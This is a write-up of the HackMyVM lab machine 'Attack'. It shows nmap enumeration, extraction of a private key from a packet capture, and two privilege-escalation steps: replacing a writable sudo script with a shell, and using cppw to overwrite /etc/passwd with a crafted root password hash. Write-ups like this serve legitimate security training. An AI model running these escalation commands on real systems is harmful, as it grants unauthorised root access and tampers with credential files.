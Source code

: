 ```yaml
---
layout: post
author: maxin
title:  "Attack"
date:   2022-01-01 09:54:07 PM -03
category: HackMyVM
---
```


[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Attack)

# Enumeration

{% highlight text  %}
# Nmap 7.92 scan initiated Thu Dec 30 13:23:08 2021 as: nmap -sC -sV -v -oN nmap 192.168.0.53
Nmap scan report for 192.168.0.53
Host is up (0.018s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 f4:8d:08:b4:99:d2:0c:5d:75:b8:22:83:7b:c2:88:15 (RSA)
|   256 e2:16:0a:e7:38:4a:ec:76:cf:d3:56:78:07:fd:2f:25 (ECDSA)
|_  256 0b:5a:9c:71:cc:3b:50:04:46:18:ad:67:8a:df:d0:d6 (ED25519)
80/tcp open  http    nginx 1.14.2
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.14.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 30 13:23:21 2021 -- 1 IP address (1 host up) scanned in 12.96 seconds
{% endhighlight  %}

# Port 80

{% highlight text  %}
I did a capture with wireshark. 
The name of the file is "capture" but i dont remember the extension :(
{% endhighlight  %}

{% highlight bash  %}
wget $IP/capture.pcap
{% endhighlight  %}

# Wireshark

On TCP stream 2. We can see a `zip` file 

File > Export Objects > HTTP → Download the file

This zip has a image and it’s a QRCode, go to [https://zxing.org/w/decode.jspx](https://zxing.org/w/decode.jspx) and decode this image

{% highlight text  %}
http://localhost/jackobattack.txt -> Decoded message
{% endhighlight  %}

# User

{% highlight bash  %}
wget $IP/jackobattack.txt
{% endhighlight  %}

This file it’s the jackob private key 

# Root - Part 1

{% highlight bash  %}
sudo -l

User jackob may run the following commands on attack:
    (kratos) NOPASSWD: /home/jackob/attack.sh
{% endhighlight  %}

We can create a new attack.sh file and add `/bin/bash` inside this file

Changed the file of attack.sh to attack.bkp

Create a new file called attack.sh and add:

{% highlight bash  %}
#!/bin/bash

/bin/bash
{% endhighlight  %}

Now use sudo has kratos

{% highlight bash  %}
sudo -u kratos /home/jackob/attack.sh
{% endhighlight  %}

# Root - Part 2

{% highlight bash  %}
sudo -l

User kratos may run the following commands on attack:
    (root) NOPASSWD: /usr/sbin/cppw
{% endhighlight  %}

The cppw binary allows us to changed passwd or shadow file 

We can use `makepasswd` to create a new passwd and changed `/etc/passwd`  file

{% highlight bash  %}
echo -n "admin123" | makepasswd --crypt-md5 --clearfrom -
{% endhighlight  %}

Get the output password and create a file with it

{% highlight bash  %}
echo "root:\$1\$K8t2noVp\$wwpuT6JnNnPn91vkheLTT0:0:0:root:/root:/bin/bash" > passwdfile
Remember to escape the $
{% endhighlight  %}

{% highlight bash  %}
sudo /usr/sbin/cppw passwdfile
su root #Use the previous password
{% endhighlight  %}